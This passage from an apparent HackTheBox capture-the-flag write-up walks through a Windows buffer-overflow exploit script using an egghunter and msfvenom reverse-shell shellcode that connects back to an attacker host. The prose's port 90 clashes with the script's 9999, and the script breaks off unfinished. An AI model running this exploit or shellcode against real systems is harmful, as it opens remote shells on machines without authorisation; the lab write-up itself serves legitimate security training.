 ```
buf += b"\x56\xd5\x26\xeb\x3b\xe6\x9d\x28\x42\x65\x17\xd1\xb1"
buf += b"\x75\x52\xd4\xfe\x31\x8f\xa4\x6f\xd4\xaf\x1b\x8f\xfd"
```

The finished exploit script looks like this. We open a connection to the application running on port 90. We then send the username and decrypted password. For the fullname we can pass it anything  and the code will be our payload. The payload consists of our egghunter padded with nop instructions up to the `eip` overwrite. `eip` contains the `jump eax` instructions and we add a few bytes afterwards to avoid that the search string ends up on the stack. Since there isn't enough space our payload would be cut off at this point and if the egghunter finds this string the exploit would fail. After those nop's we can now place our string to search for followed by the shellcode.

`exploit.py`
```py
from pwn import *


io = remote('hancliffe.htb', 9999)

offset     = 66
jmp_eax    = p32(0x719023b3)


#sub    sp,0x150
egghunter = (b"\x66\x81\xEC\x50\x01\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53"
b"\x53\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08"
b"\x3c\x05\x74\xdf\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xda\xaf\x75"
b"\xd7\xff\xe7")


#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.74 LPORT=7575 -b "\x00" EXITFUNC=thread -f python

buf =  b""
buf += b"\xbe\xb8\x2f\xbb\x90\xd9\xec\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x52\x31\x73\x12\x83\xeb\xfc\x03\xcb\x21\x59"
buf += b"\x65\xd7\xd6\x1f\x86\x27\x27\x40\x0e\xc2\x16\x40\x74"
buf += b"\x87\x09\x70\xfe\xc5\xa5\xfb\x52\xfd\x3e\x89\x7a\xf2"
buf += b"\xf7\x24\x5d\x3d\x07\x14\x9d\x5c\x8b\x67\xf2\xbe\xb2"
buf += b"\xa7\x07\xbf\xf3\xda\xea\xed\xac\x91\x59\x01\xd8\xec"
buf += b"\x61\xaa\x92\xe1\xe1\x4f\x62\x03\xc3\xde\xf8\x5a\xc3"
buf += b"\xe1\x2d\xd7\x4a\xf9\x32\xd2\x05\x72\x80\xa8\x97\x52"
buf += b"\xd8\x51\x3b\x9b\xd4\xa3\x45\xdc\xd3\x5b\x30\x14\x20"
buf += b"\xe1\x43\xe3\x5a\x3d\xc1\xf7\xfd\xb6\x71\xd3\xfc\x1b"
buf += b"\xe7\x90\xf3\xd0\x63\xfe\x17\xe6\xa0\x75\x23\x63\x47"
buf += b"\x59\xa5\x37\x6c\x7d\xed\xec\x0d\x24\x4b\x42\x31\x36"
buf += b"\x34\x3b\x97\x3d\xd9\x28\xaa\x1c\xb6\x9d\x87\x9e\x46"
buf += b"\x8a\x90\xed\x74\x15\x0b\x79\x35\xde\x95\x7e\x3a\xf5"
buf += b"\x62\x10\xc5\xf6\x92\x39\x02\xa2\xc2\x51\xa3\xcb\x88"
buf += b"\xa1\x4c\x1e\x1e\xf1\xe2\xf1\xdf\xa1\x42\xa2\xb7\xab"
buf += b"\x4c\x9d\xa8\xd4\x86\xb6\x43\x2f\x41\xb3\x99\x21\x81"
buf += b"\xab\x9f\x3d\xbc\xbc\x29\xdb\xd4\xd2\x7f\x74\x41\x4a"
buf += b"\xda\x0e\xf0\x93\xf0\x6b\x32\x1f\xf7\x8c\xfd\xe8\x72"
buf += b"\x9e\x6a\x19\xc9\xfc\x3d\x26\xe7\x68\xa1\xb5\x6c\x68"
buf += b"\xac\xa5\x3a\x3f\xf9\x18\x33\xd5\x17\x02\xed\xcb\xe5"
buf += b"\xd2\xd6\x4f\x32\x27\xd8\x4e\xb7\x13\xfe\x40\x01\x9b"
buf += b"\xba\x34\xdd\xca\x14\xe2\x9b\xa4\xd6\x5c\x72\x1a\xb1"
buf += b"\x08\x03\x50\x02\x4e\x0c\xbd\xf4\xae\xbd\x68\x41\xd1"
buf += b"\x72\xfd\x45\xaa\x6e\x9d\xaa\x61\x2b\xbd\x48\xa3\x46"
buf += b"\x56\xd5\x26\xeb\x3b\xe6\x9d\x28\x42\x65\x17\xd1\xb1"
buf += b"\x75\x52\xd4\xfe\x31\x8f\xa4\x6f\xd4\xaf\x1b\x8f\xfd"


payload  = b''
```